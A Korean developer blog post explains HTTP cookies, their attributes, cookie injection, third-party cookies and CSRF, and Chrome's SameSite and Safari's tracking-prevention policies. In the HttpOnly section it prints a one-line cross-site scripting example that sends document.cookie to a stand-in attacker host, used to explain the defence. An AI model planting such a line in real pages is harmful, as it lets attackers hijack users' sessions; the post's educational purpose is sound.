

작년에 발표된 [Chrome SameSite](https://www.chromium.org/updates/same-site) 정책과 웹 사이트의 인증 기능 등에서 '쿠키'에 대해 한번 쯤 들어 보셨을 것입니다. 이 포스팅 에서는 쿠키가 무엇이고, 어떤 종류가 있는지, 그리고 이 개념과 브라우저의 여러 정책이 어떻게 연관되는 지 살펴봅니다.

## 쿠키

쿠키란 웹사이트의 정보를 브라우저 쪽에 저장하는 작은 파일입니다. DB는 클라이언트의 요청에 의해 데이터를 저장하지만, 쿠키는 반대로 서버가 클라이언트에 **"이 파일을 보관해줘:"** 라고 지시하는 형태입니다.

쿠키도 HTTP헤더를 기반으로 구현됐습니다. 서버에서 다음과 같은 응답 헤더를 통해 날짜와 시간을 클라이언트에 저장해달라고 요청할 수 있습니다.

```js
Set-Cookie: DATE=March/4/2020
```

`이름=값` 형식으로 요청하며, 클라이언트 에서는 이 값을 저장합니다. 이런 방법을 통해 서버에서 사이트의 첫 방문 여부 등을 판단할 수 있습니다.

브라우저에서도 쿠키를 읽거나 설정할 수 있습니다.

```js
console.log(document.cookie)
--
[트위터 사이트에서의 실험 결과]
guest_id=v1%3A1...; _ga=GA1.2...
```

## 쿠키의 속성

쿠키는 `<cookie-name>=<cookie-value>` 과 같은 형식으로 지정 되는데, `cookie-name` 는 제어 문자 및 공백, 탭을 제외한 아스키 문자로 구성되어야 하며 특수기호를 포함 할 수 없습니다.

- **__Secure-**: `__Secure-` 로 시작되는 쿠키 이름은 반드시 `secure` 플래그가 설정되어야 하고, HTTPS페이지여야 합니다.
- **__Host-**: `__Host-` 로 시작되는 쿠키역시 secure 플래그가 설정되어야 하며, HTTPS 페이지여야 하고, 도메인이 지정되지 않아야 합니다. (따라서 서브 도메인에 쿠키를 공유할 수 없습니다) 그리고, 경로는 반드시 "/"여야 합니다.

아래는 여러가지 Optinal한 쿠키 속성입니다.

**Expires=\<date>**

쿠키의 최대 생존 시간입니다. 지정되지 않았다면, **세션 쿠키**로서 취급되며, 클라이언트가 종료될 때 파기 됩니다. 서버가 아니라 클라이언트에 상대적인 값으로 취급됩니다.

**Max-Age=\<number>**

쿠키가 만료될 때 까지의 시간을 초단위로 표현합니다. 0 또는 음수가 지정되면 해당 쿠키는 즉시 만료되며, IE6,7,8은 이 헤더를 지원하지 않습니다. `Expires` 와 `Max-Age` 값이 모두 지정될 경우 Max-Age값을 더 우선적으로 판단합니다.

**Domain=\<domain-value>**

Domain은 쿠키의 스코프를 정의하며 어느 사이트에서 생성한 것인지 알려줍니다. 지정되지 않으면 현재 페이지 URL을 기준으로 적용됩니다.

**Path=\<path-value>**

쿠키를 보내기 전 요청 된 리소스에 있어야 하는 URL 경로를 나타냅니다. 예를 들어 `path=/soso` 로 지정된 경우 `/soso`, `/soso/jbee` 등의 경로에서 쿠키가 전송될 수 있습니다.

**Secure**

이 옵션이 설정된 쿠키들은 서버에서 SSL을 사용하며 HTTPS프로토콜을 사용할때만 전송됩니다.

**HttpOnly**

사용자의 쿠키를 보호하기 위해 설정하는 옵션입니다.

예를 들어, 해커는 다음과 같은 코드를 통해 사용자의 쿠키를 가로챌 수 있습니다.

```js
location.href = 'https://😈.com?cookies=' + document.cookie
```

게시판이나 메일을 통해 이런 코드를 담은 게시물을 올리고, 사용자가 클릭한 경우 사용자의 쿠키는 모두 😈사이트로 전송됩니다.

이러한 CSS(Cross-Site Scripting)공격을 방어하기 위해 document.cookie를 이용해 쿠키에 접근할 수 없도록 하는 옵션입니다.

## 주의사항

쿠키는 편리한 기능이지만, 몇 가지 제약이 있기 때문에 주의해서 사용해야 합니다.

우선 영속성 문제가 있습니다. 쿠키는 어떤 상황에서도 확실하게 저장되는 것은 아닙니다. 시크릿 모드 혹은 브라우저의 보안 설정에 따라 세션이 끝나면 쿠키를 보관하라는 서버의 요청을 무시하기도 합니다. 따라서, **사라져도 문제 없는 정보나 서버 정보로 복원할 수 있는 자료**를 저장하는 용도로 적합합니다.

또한, 용량 문제도 있습니다. 쿠키의 최대 크기는 4KB로 정해져 있습니다. 쿠키에 많은 데이터를 담을 수 없고, 항상 통신에 부가되므로 통신량이 늘어나는데, 통신량 증가는 요청과 응답속도에 모두 영향을 미칩니다.

마지막은 보안 문제입니다. `secure` 속성을 부여하면 HTTPS프로토콜로 암호화된 통신에서만 쿠키가 전송되지만, HTTP통신에서는 쿠키가 평문으로 전송됩니다. 따라서 비밀번호 등을 저장하면 안되며, 암호화 되더라도 사용자가 자유롭게 접근할 수 있으므로 조작위험이 있습니다.

### 쿠키 인젝션

쿠키 인젝션은 쿠키의 사양을 역으로 취한 방법으로 HTTPS연결을 우회할 수 있습니다. HPPTS로 은닉된 도메인(ex:*example.com*)의 쿠키에 대해 HTTP가 아닌 다른 하위 도메인(ex: *subdomain.example.com*)으로부터 덮어 쓰거나, 상세한 쿠키를 설정함으로써(ex: *example.com/someapp*) 원래 HTTPS로 지정된 도메인의 쿠키를 무효화하는 것입니다.

2017년 3월, 크롬 및 파이어폭스는 쿠키 인젝션에 대한 [대책](https://www.chromestatus.com/feature/4506322921848832)을 발표했습니다.

서브 도메인에서 재구성할 수 없게 되었고, 동일한 도메인이라도 secure가 붙은 쿠키는 HTTP에서 덮어 쓸 수 없습니다.

## First Party, Third Party

First Party쿠키는 브라우저가 액세스한 서비스가 해당 서비스 내에서만 유효한 쿠키를 써넣는 것입니다. 반면, Third Party쿠키는 광고 등의 용도로 외부 서비스에서 읽을 수 있는 쿠키를 삽입해 사이트를 넘어서 행동 추적을 가능하게 해주는 쿠키입니다.

Third Party쿠키는 액세스한 사이트(origin.com)와 다른 사이트(ad-tech.com)의 쿠키입니다.


origin.com에 다음과 같은 tag를 포함하는 방법으로 요청할 수 있습니다.

```html
<a href="ad.doubleclick.net/some-other-parameters-specific-to-this-ad" target="_blank" rel="noopener">
  
</a>
```

페이지가 로드 되면 광고 마크업도 로드되고, *[ad.doubleclick.net/the-extension-to-the-creative](http://ad.doubleclick.net/the-extension-to-the-creative)* 로 요청이 전송되고, 쿠키를 사용자에게 전달합니다.

Third Party쿠키는 보안 문제에서 자유롭지 못합니다. 예를 들어 사용자가 은행 사이트에 로그인하여 신용카드 결제를 위해 로그인하고 로그아웃 하지 않은 상태에서 악성 사이트로 이동하면 CSRF 공격이 발생할 수 있습니다. 사용자가 은행 사이트에 '인증 된'상태이므로 악성 사이트에서 송금 등의 액션을 취할 수도 있습니다.

한 가지 더 예를 들자면, 누군가 so-so.dev의 이미지를 다른 사이트에서 사용한다고 가정해봅니다. 사용자가 so-so.dev에서 쿠키를 받아간 적이 있다면 다른 사이트에서 so-so.dev의 이미지 요청 시 해당 쿠키도 같이 요청 됩니다. 다른 사이트에서는 so-so.dev의 쿠키를 사용하지 않지만 so-so.dev로 요청하고 있으므로 해당 쿠키가 다른 사이트에서 사용 된 것입니다.

누군가 evil.com에서 로그인 했는데 so-so.dev의 이미지를 사용하고 있다면, so-so.dev에 직접적으로 요청을 보낼 수도 있는 것입니다.

## Chrome - SameSite

구글은 이러한 보안 위험요소로부터 사용자를 보호하기 위해 SameSite라는 새로운 쿠키정책을 발표했습니다. 이 경우 웹 개발자는 `Set-Cookie` 헤더에서 SameSite 속성 구성 요소를 사용하여 쿠키를 관리해야 합니다.

SameSite 속성으로 전달할 수 있는 값은 Strict, Lax, None값이 있습니다.

|값|설명|
|------|---|
|Strict|이 설정을 사용하는 쿠키는 처음에 설정된 도메인을 방문할 때만 액세스할 수 있습니다. 즉, Strict는 쿠키를 사이트 간에 사용할 수 없게 차단합니다. 이 옵션은 은행과 같이 보안이 높은 애플리케이션에 가장 적합합니다.|
|Lax|Cookies with this setting are sent only on same-site requests or top-level navigation with non-idempotent HTTP requests, like HTTP GET . 따라서 이 옵션은 타사에서 쿠키를 사용할 수 있지만 CSRF 공격의 피해를 당하지 않도록 하는 보안 혜택이 추가된 경우에 사용됩니다.|
|None|기존처럼 Third Party context에서도 쿠키를 사용할 수 있다는 뜻입니다.|

`SameSite=Lax` 로 설정된 경우 같은 최상위 도메인(ex: so-so.dev → statis.so-so.dev)간의 이동에만 쿠키가 허용 됩니다.

```html
<p>Example</p>

<p>Read the <a href="https://other.dev/cat.html">article</a>.</p>
```

위 예시에서 쿠키는 다음과 같이 설정됩니다.

```
Set-Cookie: test=1; SameSite=Lax
```

유저가 so-so.dev에 있다면 쿠키는 전송되지 않고 `[https://other.dev/cat.html](https://other.dev/cat.html)` 로 이동할 경우 쿠키가 전송됩니다. `Lax` 옵션은 사이트 컨텐츠에 영향을 미치는 쿠키에 적합합니다.

Chrome은 80버전부터 기본 값을 `SameSite=Lax` 로 변경했습니다. 만약 `SameSite=None` 옵션으로 쿠키를 다루고 싶다면 Secure옵션을 추가해주어야 합니다.

```
Set-cookie: 3pcookie=value; SameSite=None; Secure
```

## Webkit - Full Third-Party Cookie Blocking

Safari 13.1업데이트에 Intelligent Tracking Prevention (ITP)에 중요한 변경사항이 있었습니다. WebKit 엔지니어 인 Apple의 John Wilander에 따르면 이제 Safari에서 **Third Party 쿠키는 차단**됩니다.  (구글의 SameSite 정책과 유사하지만, 구글은 2020년까지 단계적 배포인데 반해 Safari는 13.1에서 100% 배포했습니다.)

<a href="https://twitter.com/johnwilander/status/1242513313507860480?ref_src=twsrc^tfw|twcamp^tweetembed|twterm^1242513313507860480&ref_url=https%3A%2F%2Fwww.theverge.com%2F2020%2F3%2F24%2F21192830%2Fapple-safari-intelligent-tracking-privacy-full-third-party-cookie-blocking">
  
</a>

## Ref

- [https://webkit.org/blog/10218/full-third-party-cookie-blocking-and-more/](https://webkit.org/blog/10218/full-third-party-cookie-blocking-and-more/)
- [http://www.hanbit.co.kr/store/books/look.php?p_code=B7009240426](http://www.hanbit.co.kr/store/books/look.php?p_code=B7009240426)
- [https://clearcode.cc/blog/difference-between-first-party-third-party-cookies/#first-vs-third](https://clearcode.cc/blog/difference-between-first-party-third-party-cookies/#first-vs-third)
- [https://docs.adobe.com/content/help/ko-KR/target/using/implement-target/before-implement/privacy/google-chrome-samesite-cookie-policies.translate.html](https://docs.adobe.com/content/help/ko-KR/target/using/implement-target/before-implement/privacy/google-chrome-samesite-cookie-policies.translate.html)
- [https://ifuwanna.tistory.com/223](https://ifuwanna.tistory.com/223)
- [https://www.yceffort.kr/2020/01/chrome-cookie-same-site-secure/](https://www.yceffort.kr/2020/01/chrome-cookie-same-site-secure/)
- [https://developers-kr.googleblog.com/2020/01/developers-get-ready-for-new.html](https://developers-kr.googleblog.com/2020/01/developers-get-ready-for-new.html)
- [https://medium.com/cross-site-request-forgery-csrf/double-submit-cookie-pattern-65bb71d80d9f](https://medium.com/cross-site-request-forgery-csrf/double-submit-cookie-pattern-65bb71d80d9f)
- [thumbnail image](https://www.freepik.com/premium-vector/hand-drawn-illustration-cookie_2795450.htm)
